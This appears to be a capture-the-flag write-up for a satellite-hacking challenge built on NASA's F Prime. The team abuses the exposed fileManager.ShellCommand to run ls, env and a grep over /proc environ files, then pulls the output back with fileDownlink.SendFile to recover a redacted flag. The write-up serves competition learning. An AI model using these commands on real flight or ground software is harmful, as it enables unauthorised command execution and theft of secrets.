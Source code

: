 
# Grade F Prime Beef

### Rapid Unplanned Disassembly 

_88 points, 46 Solves_

Active ADDVulcan players:
<li> supersat
<li> dtechshield

## Challenge Description

Exploit the system, get the passcode, retrieve the flag.

## Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX-XXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

## Connecting

Connect to the challenge on:

```
recent-puzzle.satellitesabove.me:5015
```

Using netcat, you might run:

```
nc recent-puzzle.satellitesabove.me 5015
```

## Solving

Your team's flag for this challenge will look something like:
flag{sierra457871juliet2:___a bunch of unguessable stuff___} 


## Write up by dtechshield

Based on the instructions presented we made a tcp connection to `recent-puzzle.satellitesabove.me` on port `5015` 

```
nc recent-puzzle.satellitesabove.me 5015
```

This presented us with the following output:

```
Ticket please:
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
Starting spacecraft
Starting ground station
Challenge Web Page Starting at http://18.222.149.133:12388
CLI available at 18.222.149.133:12389
```

First we logged in went to the http server:  `http://18.222.149.133:7834/`

Took a look at the page source: 
![Alt text](images/00_fprime_id.PNG "a title")

Identified that the system was using NASA's F Prime - https://github.com/nasa/fprime

Command interface was somewhat familiar from previous hackasat events...

Quickly looking at the interface we noticed the `Commanding` tab - started examining the available commands...

![Commands of Interest](images/01_commands_of_interest_highlighted.PNG "commands of interest")


We noticed `fileManager.ShellCommand`

Assuming this was a Unix based system first issued a command to see what is in the current directory:

```
2021-06-27T05:18:31.854Z    0x25d    fileManager.ShellCommand    [ "ls", "test.log" ]
2021-06-27T05:18:57.059Z    0x1f5    fileDownlink.SendFile    [ "test.log", "test.log" ]
```

Looking at the test.log we saw that there was a `satellite.exe`

```
$ cat test.log 

satellite.exe

test.log
```


Downloaded the `satellite.exe` using the `fileDownlink.SendFile` command.


Loaded `satellite.exe` into Ghidra and began our analysis:

```
void FUN_0014f610(long param_1)

{
  char *__s;
  
  FUN_00150820();
  *(undefined4 *)(param_1 + 0x3b0) = 0;
  __s = getenv("SAT_FLAG");
  strlen(__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_replace
            (param_1 + 0x3b8U,0,*(char **)(param_1 + 0x3c0),(ulong)__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::resize
            (param_1 + 0x3b8U,-0x60);
  setenv("SAT_FLAG","ThisIsNotTheFlagYouAreLookingFor",1);
  return;
}

```

Noticed the `SAT_FLAG` environment variable...

Ran echo $SAT_FLAG on the web interface

Downloading the file the team saw

```
 cat flag.txt 
ThisIsNotTheFlagYouAreLookingFor
```

supersat executed  the following commands:

```
2021-06-27T05:33:32.386Z    0x25d    fileManager.ShellCommand    [ "grep -ra flag /proc/*", "grep.log" ]
2021-06-27T05:33:42.489Z    0x1f5    fileDownlink.SendFile    [ "grep.log", "grep.log" ]
```


Contents of `grep.log`:

```
/proc/10/task/10/environ:SHELL=/bin/bashSAT_FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
PWD=/home/space/fprimeLOGNAME=spaceHOME=/home/spaceFLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
USER=spaceSHLVL=0PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/gamesMAIL=/var/mail/spaceOLDPWD=/home/space_=./sa
tellite.exe
```


dtechshield executed the following set of commands:

```
2021-06-27 06:34:08,(2(0)-1624775648:279639),fileManager.ShellCommand,605,[ ' e n v ' ,   ' t e s t . l o g ' ]
2021-06-27 06:34:21,(2(0)-1624775661:360806),fileDownlink.SendFile,501,[ ' t e s t . l o g ' ,   ' t e s t . l o g ' ]
```

Contents of `test.log`:

```
MAIL=/var/mail/space
USER=space
SHLVL=0
HOME=/home/space
OLDPWD=/home/space
LOGNAME=space
_=./satellite.exe
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SAT_FLAG=ThisIsNotTheFlagYouAreLookingFor
SHELL=/bin/bash
PWD=/home/space/fprime
FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
```


The initial response received for `SAT_FLAG` environment variable almost sent us on our way, but dumping the full set of environment variables the team captured the flag. 

